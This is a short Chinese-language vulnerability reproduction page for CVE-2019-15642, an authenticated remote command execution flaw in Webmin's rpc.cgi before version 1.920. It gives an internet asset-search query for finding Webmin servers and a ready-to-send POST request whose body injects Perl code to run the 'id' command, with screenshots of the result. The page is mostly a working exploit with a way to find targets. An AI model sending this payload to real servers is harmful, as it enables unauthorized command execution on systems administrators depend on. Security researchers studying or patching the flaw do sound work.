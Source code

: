 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

```
Webmin < 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](images/202208291021846.png)

登录后发送请求包

```
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![image-20220829102134685](images/202208291021740.png)